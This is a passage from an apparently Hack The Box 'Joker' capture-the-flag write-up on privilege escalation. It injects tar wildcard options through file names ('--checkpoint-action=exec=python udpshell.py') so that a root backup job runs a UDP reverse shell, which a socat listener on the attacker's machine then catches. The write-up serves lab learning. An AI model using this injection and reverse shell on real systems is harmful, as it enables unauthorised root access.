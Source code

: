 ```
-r--r----- 1 root   alekos    33 May 19  2017 user.txt
alekos@joker:~$ cd backup
alekos@joker:~/backup$ ls -al
total 67640
drwxrwx--- 2 root   alekos 73728 Dec 31 01:20 .
drwxr-xr-x 7 alekos alekos  4096 May 19  2017 ..
-rw-r----- 1 root   alekos 40960 Dec 25 04:25 dev-1514168701.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 25 04:30 dev-1514169001.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 25 04:35 dev-1514169301.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 25 04:40 dev-1514169601.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 25 04:45 dev-1514169901.tar.gz
```

After checking for cron jobs there is no sign of what's running these backups to be found. After thinking on it for a while, it seems logical that whatever is running the backup is probably running something like `tar cf *`. Yet again another wildcard we can exploit. It just so happens that I've ran across this before while working on a vulnhub box. 

For a detailed explanation on what to do check [here](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt).

Short explanation is we can inject options and parameters into the tar command thats running by naming files with those options/parameters. The wildcard will process the filenames as actual commandline options and run them.

 The options we are going to use are `--checkpoint` and `--checkpoint-action`. With tar you can specify checkpoints and a checkpoint action which will run commands at each checkpoint. So all we have to do is set a checkpoint action to run another python UDP shell.

Let's stage our shell.
```
alekos@joker:~/development$ nano udpshell.py
alekos@joker:~/development$ chmod +x udpshell.py
```
Create our files. Note you have to use `--` to signify the end of command options so it will properly create the file names. 
```
alekos@joker:~/development$ touch -- --checkpoint=1
alekos@joker:~/development$ touch -- '--checkpoint-action=exec=python udpshell.py'
```

Fire up our socat listener and wait for the job to run.

```
root@kali:~/htb/joker# socat file:`tty`,echo=0,raw  udp-listen:100
root@joker:/home/alekos/development# id
uid=0(root) gid=0(root) groups=0(root)
root@joker:/home/alekos/development# 
```

And now we have our root shell and can grab the root.txt flag!
 